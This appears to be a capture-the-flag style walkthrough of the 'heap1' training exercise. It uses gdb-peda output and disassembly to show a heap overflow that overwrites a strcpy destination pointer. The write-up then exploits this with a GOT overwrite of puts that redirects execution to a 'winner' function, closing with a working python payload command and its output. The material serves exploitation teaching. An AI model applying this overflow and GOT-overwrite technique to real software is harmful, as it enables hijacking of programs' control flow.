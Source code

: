 

```asm
    8048565:   e8 06 fe ff ff          call   8048370 <strcpy@plt>
    804856a:   83 c4 10                add    esp,0x10
    804856d:   8b 43 04                mov    eax,DWORD PTR [ebx+0x4]
    8048570:   83 c0 08                add    eax,0x8
    8048573:   8b 10                   mov    edx,DWORD PTR [eax]
    8048575:   8b 45 f0                mov    eax,DWORD PTR [ebp-0x10]
    8048578:   8b 40 04                mov    eax,DWORD PTR [eax+0x4]
    804857b:   83 ec 08                sub    esp,0x8
    804857e:   52                      push   edx
    804857f:   50                      push   eax
    8048580:   e8 eb fd ff ff          call   8048370 <strcpy@plt>
```

in gdb:

``` sh
gdb-peda$ b *0x8048565
Breakpoint 1 at 0x8048565
gdb-peda$ b *0x8048580
Breakpoint 2 at 0x8048580
gdb-peda$ r aaaaa bbbbb

```

now let's take a look see



```asm
       0x8048560 <main+126>:	sub    esp,0x8
       0x8048563 <main+129>:	push   edx
       0x8048564 <main+130>:	push   eax
    => 0x8048565 <main+131>:	call   0x8048370 <strcpy@plt>
       0x804856a <main+136>:	add    esp,0x10
       0x804856d <main+139>:	mov    eax,DWORD PTR [ebx+0x4]
       0x8048570 <main+142>:	add    eax,0x8
       0x8048573 <main+145>:	mov    edx,DWORD PTR [eax]
    Guessed arguments:
    arg[0]: 0x804a018 --> 0x0
    arg[1]: 0xffffdcee ("aaaa")
```
so now we can continue
```sh
gdb-peda$ c
```
and have another look see
```asm
       0x804857b <main+153>:	sub    esp,0x8
       0x804857e <main+156>:	push   edx
       0x804857f <main+157>:	push   eax
    => 0x8048580 <main+158>:	call   0x8048370 <strcpy@plt>
       0x8048585 <main+163>:	add    esp,0x10
       0x8048588 <main+166>:	sub    esp,0xc
       0x804858b <main+169>:	push   0x804864b
       0x8048590 <main+174>:	call   0x8048390 <puts@plt>
    Guessed arguments:
    arg[0]: 0x804a038 --> 0x0
    arg[1]: 0xffffdcf3 ("bbbb")
```

now let's see if we can break it!

```sh
gdb-peda$ r aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa bbbbb
```


```asm
   0x8048560 <main+126>:	sub    esp,0x8
   0x8048563 <main+129>:	push   edx
   0x8048564 <main+130>:	push   eax
=> 0x8048565 <main+131>:	call   0x8048370 <strcpy@plt>
   0x804856a <main+136>:	add    esp,0x10
   0x804856d <main+139>:	mov    eax,DWORD PTR [ebx+0x4]
   0x8048570 <main+142>:	add    eax,0x8
   0x8048573 <main+145>:	mov    edx,DWORD PTR [eax]
Guessed arguments:
arg[0]: 0x804a018 --> 0x0
arg[1]: 0xffffdcb6 ('a' <repeats 57 times>)
```
nothing interesting yet...

and so we continue

```sh
    gdb-peda$ c
```
and take a look see
```asm
   0x804857b <main+153>:	sub    esp,0x8
   0x804857e <main+156>:	push   edx
   0x804857f <main+157>:	push   eax
=> 0x8048580 <main+158>:	call   0x8048370 <strcpy@plt>
   0x8048585 <main+163>:	add    esp,0x10
   0x8048588 <main+166>:	sub    esp,0xc
   0x804858b <main+169>:	push   0x804864b
   0x8048590 <main+174>:	call   0x8048390 <puts@plt>
Guessed arguments:
arg[0]: 0x61616161 ('aaaa')
arg[1]: 0xffffdcf0 ("bbbbbbbbb")
```

Ureka!! We are overwriting the destination address being passed to the `strcpy` function. So we have the ability to perform a .got overwrite. Our plan is to first overwrite the destination address passed to `strcpy` with the `.got` address of `printf` and then use `strcpy` to overwrite that address with the address of the `winner` function.


Let's take another look at the assembly

```asm
8048580:   e8 eb fd ff ff          call   8048370 <strcpy@plt>
 8048585:   83 c4 10                add    esp,0x10
 8048588:   83 ec 0c                sub    esp,0xc
 804858b:   68 4b 86 04 08          push   0x804864b
 8048590:   e8 fb fd ff ff          call   8048390 <puts@plt>
```

Even though `printf` is called in the C code, `puts` is being called in the assembly. So lets take a closer look at the .plt definition of `puts`.


```asm
 08048390 <puts@plt>:
8048390:   ff 25 a0 98 04 08       jmp    DWORD PTR ds:0x80498a0
8048396:   68 20 00 00 00          push   0x20
804839b:   e9 a0 ff ff ff          jmp    8048340 <_init+0x2c>
```

so `0x80498a0` is the .got address of puts. So all we need to do is overwrite that address with the address of `winner`

```asm
080484bb <winner>:
80484bb:   55                      push   ebp
80484bc:   89 e5                   mov    ebp,esp
....
```


```sh
[kablaa@superhacker9000 heap1]$ ./heap1 $(python2.7 -c 'print "a"*20 + "\xa0\x98\x04\x08" + " " + "\xbb\x84\x04\x08"')
and we have a winner @ 1453579246
[kablaa@superhacker9000 heap1]$

```

